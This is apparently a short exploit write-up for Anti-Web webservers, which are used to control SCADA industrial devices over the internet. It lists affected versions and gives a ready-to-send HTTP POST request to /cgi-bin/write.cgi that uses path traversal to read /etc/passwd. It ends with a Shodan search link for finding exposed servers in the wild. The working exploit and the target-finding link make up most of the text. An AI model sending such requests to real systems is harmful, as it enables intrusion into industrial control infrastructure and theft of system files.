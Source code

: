 * [!] It's products that makes it possible to remotely operate "Scada" control devices and systems via the internet.


## VERSION WEBSERVER:

* Anti-Web V3.0.7-hms2
* ...
* Anti-Web V3.3.5
* ...
* Anti-Web V3.6.1
* ...	
* Anti-Web V3.7.1
* Anti-Web V3.7.2
* ...
* Anti-Web V3.8.1
* Anti-Web V3.8.2
* Anti-Web V3.8.3
* Anti-Web V3.8.4
* Anti-Web V3.8.5
* Anti-Web V3.8.7

## Steps To Reproduction:

### Simple HTTP Request 


```

	POST /cgi-bin/write.cgi HTTP/1.1
	Host: <host>
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: es-AR,en-US;q=0.7,en;q=0.3
	Referer: http://<host>/
	Connection: close
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 52

	page=/&template=../../../../../../etc/passwd



```

## on the wild!:
[Servers anti-web](https://www.shodan.io/search?query=anti-web)
